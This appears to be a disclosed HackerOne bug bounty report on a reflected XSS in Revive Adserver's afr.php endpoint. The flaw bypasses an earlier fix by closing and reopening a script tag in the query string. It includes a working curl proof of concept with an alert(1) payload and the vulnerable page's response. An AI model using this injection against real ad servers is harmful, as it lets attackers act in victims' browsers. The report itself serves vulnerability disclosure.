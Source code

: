 # Reflected XSS on /www/delivery/afr.php (bypass of report #775693)

## Report Details
- **Report ID**: 986365
- **URL**: https://hackerone.com/reports/986365
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-19T23:56:40.255Z
- **Disclosed**: 2021-01-19T15:30:37.986Z

## Reporter
- **Username**: axfla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: revive_adserver

## Vulnerability Information
It is possible to bypass the first fix of this XSS by closing the script tag, and then opening a new one. cURL PoC is trivial :

`curl "https://revive-instance/www/delivery/afr.php?refresh=10000&</script><script>alert(1)</script>"`

The response will be :

```
<!DOCTYPE html PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN' 'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'>
<html xmlns='http://www.w3.org/1999/xhtml' xml:lang='en' lang='en'>
<head>
<title>Advertisement</title>

    <script type='text/javascript'><!--// <![CDATA[
        setTimeout('window.location.replace("https://revive-instance/www/delivery/afr.php?refresh=10000&</script><script>alert(1)</script>&loc=")', 10000000);
    // ]]> --></script><noscript><meta http-equiv='refresh' content='10000;url=https://revive-instance/www/delivery/afr.php?refresh=10000&amp;&lt;/script&gt;&lt;script&gt;alert(1)&lt;/script&gt;&amp;loc='></noscript>
    <style type='text/css'>
body {margin:0; height:100%; background-color:transparent; width:100%; text-align:center;}
</style>
</head>
<body>

</body>
</html>

## Impact

An attacker can perform arbitrary actions on behalf of the victim.

## Attachments
No attachments
